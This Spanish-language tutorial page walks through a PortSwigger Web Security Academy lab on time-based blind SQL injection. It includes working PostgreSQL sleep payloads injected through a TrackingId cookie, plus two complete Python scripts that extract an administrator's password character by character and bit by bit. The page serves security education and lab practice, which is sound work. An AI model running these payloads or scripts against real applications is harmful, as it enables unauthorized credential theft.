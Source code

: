 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger).


## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución manual + automatización con Python

Luego de un primer acceso a la aplicación y por sugerencia de la consigna, analizando las cookies se observa que figura una llamada `TrackingId` con un valor alfanumérico. Para modificarla en pedidos siguientes es pertinente usar un proxy de ataque como OWASP ZAP para practicidad.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las formas mencionadas en [4.3 Basadas en tiempo](/test-page/injection_types/blind/time_based_type) para cada tipo de base. Por lo que modificando `TrackingId` de la siguiente manera se puede validar la que resulta válida:

```
TrackingId=ggg'||(SELECT pg_sleep(5))--
```

De este *payload* válido se deduce que el DBMS es PostgreSQL y variando los segundos de demora en `pg_sleep` se logra inferir un tiempo lo más bajo posible **que no se confunda con una demora común** de respuesta. 

Antes de extraer la contraseña del administrador y es pertinente conocer la longitud de la misma. Basado en el ejemplo de demora condicional para PostgreSQL que se encuentra en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), este es un posible fragmento de SQL que funciona:

```sql
SELECT CASE WHEN (LENGTH(password)=1) 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator'
```

Reemplazándolo en la cookie:

```
TrackingId=ggg'||(SELECT CASE WHEN (LENGTH(password)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

De esta manera solo se debe ir variando el número de largo comparado del número, manualmente o automatizado como se explica en los ejercicios anteriores (con *Fuzzer* de OWASP ZAP o *Intruder*/*Turbo Intruder* de Burp Suite). Como en los otros ejercicios, la longitud es 20.

Para extraer la contraseña, teniendo en cuenta que se conoce la tabla, las columnas y hasta el nombre del usuario, una forma simple y eficaz sería con el siguiente fragmento de SQL:

```sql
SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator')
```

Dado que el enfoque para automatizar la solución es con Python, en lugar de un número para posición del *substring* o un caracter a comparar con el *substring*, se utilizan los marcadores de posición `%d` y `%s` respectivamente. Esto permite sustituir con reemplazos de Python tales posiciones con valores reales de esos tipos de datos (`int` y `string`). De esta manera se puede ir probando entre las diferentes combinaciones en `%d` (para iterar entre cada posición de la contraseña del 1 al 20) y `%s` (para iterar sobre todas posibles opciones de caracteres alfanuméricos).

Para automatizar las consultas, el siguiente es un ejemplo de *script* básico en Python 3 en el que apoyarse:

```python
#!/usr/bin/python3
import requests,time,sys,string
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
# Caracteres alfanuméricos (sin mayúsculas)
characters = string.ascii_lowercase + string.digits 
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' " 
    "THEN pg_sleep(2) ELSE pg_sleep(0) END " 
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21): 
    for character in characters:
        cookies = { "TrackingId": cookie % (position, character) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            password += character
            sys.stdout.write(character)
            sys.stdout.flush()
            break

print("\n[+] Password: %s" % (password))
```

Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, habría que incluir dentro de la lista `characters` todos los caracteres posibles para la contraseña (letras mayúsculas y caracteres especiales).

## Optimización con conversión binaria

La desventaja de iterar por lista de caracteres es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realiza mediante un *script* para automatizarlo, para optimizar la cantidad de consultas, es conveniente apoyarse en los consejos de optimización descritos en la sección [4.1 Inyección SQL ciega con respuestas condicionales](/test-page/injection_types/blind/conditional_type#optimizaciones).

La optimización de utilizar una conversión a binario del caracter a adivinar implica convertirlo primero a su representación numérica (con `ASCII()`), luego a *byte* con un *cast* (`::bit(8)`) y finalmente tomar bit por bit de ese byte resultante. Cada bit se compara con `0` o `1` y el resultado se acumula hasta completar 8 pedidos. Completado este proceso, se obtiene un byte que es directamente convertible a caracter.

La consulta condicional SQL pasa a ser:

```sql
SELECT CASE WHEN 
    SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1)
```

El primer `%d` corresponde a la posición de caracter de contraseña (1 a 20) y el segundo a la posición de bit (1 a 8). El *script* modificado para reconstruir cada byte es el siguiente:

```python
#!/usr/bin/python3
import requests,time,sys
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1) "
    "THEN pg_sleep(2) ELSE pg_sleep(0) END "
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21):
    byte = ""
    # Posiciones de bit del 1 al 8
    for bit_position in range(1,9):
        cookies = { "TrackingId": cookie % (position, bit_position) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            byte += "0"
        else:
            byte += "1"
    # Conversión del entero en base 2
    extracted_chr = chr(int(byte, 2))
    password += extracted_chr
    sys.stdout.write(extracted_chr)
    sys.stdout.flush()

print("\n[+] Password: %s" % (password))
```
